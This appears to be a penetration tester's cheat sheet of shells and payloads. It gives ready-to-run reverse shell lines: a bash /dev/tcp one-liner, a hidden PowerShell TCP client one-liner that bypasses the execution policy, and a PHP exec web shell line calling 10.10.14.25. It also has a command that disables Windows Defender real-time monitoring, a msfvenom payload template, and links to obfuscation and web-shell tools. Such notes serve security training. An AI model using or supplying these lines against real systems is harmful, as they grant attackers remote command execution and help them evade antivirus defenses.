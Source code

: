 # Shells & Payloads

## Reverse shell

Linux -> bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

Windows ->&#x20;

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell-session
Set-MpPreference -DisableRealtimeMonitoring $true
```

## MSFvemon

msfvenom -l payloads

linux pipes to .elf

windows pipes to .exe

Comand is:  msfvenom -p \<PATH\_TO\_ EXPLOIT> LHOST=\<IP> LPORT=\<PORT> -f \<elf/exe> > \<OUT>

## Payloads

[This](https://swisskyrepo.github.io/PayloadsAllTheThings/) is a good resource for payloads

[This](https://github.com/bats3c/darkarmour) is a good resource for obfuscated windows binaries


Msfconsole is a very easy tool and makes things very automated! Use search to look for exploits

Shell upgrades in the case of no python [here](https://academy.hackthebox.com/module/115/section/1117)

## Web shells

Laudanum - Come with installed ready to go web exploits only works on very easy targets. You do have to do some manual configuration. Like adding your local ip to the allowed list.

## Antak & IPPSEC

[https://ippsec.rocks/](https://ippsec.rocks/) -> Is a great resource for learning and checking out new technologies he may have spoken about.

```
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.25/9000 0>&1'"); ?>
```

## Nishang

Come with a bunch on compiled payloads for different atack surfaces. Antak is themed like powershell and used for windows shells

## PHP webshells

[winterWolf](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) -> nice one for php webshells provides clear stuff

